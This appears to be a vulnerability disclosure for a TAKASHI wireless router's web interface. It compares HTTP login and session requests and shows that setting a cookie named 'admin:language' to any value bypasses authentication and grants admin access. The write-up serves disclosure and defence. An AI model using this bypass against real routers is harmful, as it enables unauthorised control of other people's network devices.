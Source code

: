 #TAKASHI Wireless Instant Router And Repeater Web Application Authentication Bypass<br />
`Software version 	    V5.07.38_AAL03`<br />
`Hardware version 	    V3.0`<br />

This vulnerability is related to how the web application handles sessions for authenticated users. The issue arises due to improper session management, allowing unauthorized users to gain admin-level access.

#Below You Will See A Request Comparison

To understand how this vulnerability works, let's compare an unauthenticated request to an authenticated request.

**An unauthenticated request looks like this:**

POST /LoginCheck HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: `http://192.168.2.1/login.asp`
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: `http://192.168.2.1`
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: language=en
Upgrade-Insecure-Requests: 1
Priority: u=0, i

Username=admin&checkEn=0&Password=whatsthepassword

**When the user is authenticated, the request looks like this:**

GET /wireless_basic.asp HTTP/1.1
Host: `192.168.2.1`
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: `http://192.168.2.1/advance.asp`
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: language=en; admin:language=en
Upgrade-Insecure-Requests: 1
Priority: u=4


Key Difference

The key difference between the two requests is the presence of the following cookie:

`admin:language=en`

The Vulnerability

This vulnerability is based on the way the application validates session data. By manipulating the admin:language cookie, an unauthenticated user can gain access to authenticated pages.
Exploit Mechanics

To exploit this vulnerability, all an attacker needs to do is set the cookie admin:language with any arbitrary value. The application will trust this cookie and treat the user as an authenticated admin.

`admin:language=<any_value>`

Where <any_value> can be any string,text or numbers. As long as the cookie is given that name, the application will behave as if the user is authenticated.
Conclusion

This vulnerability shows the importance of proper session management.

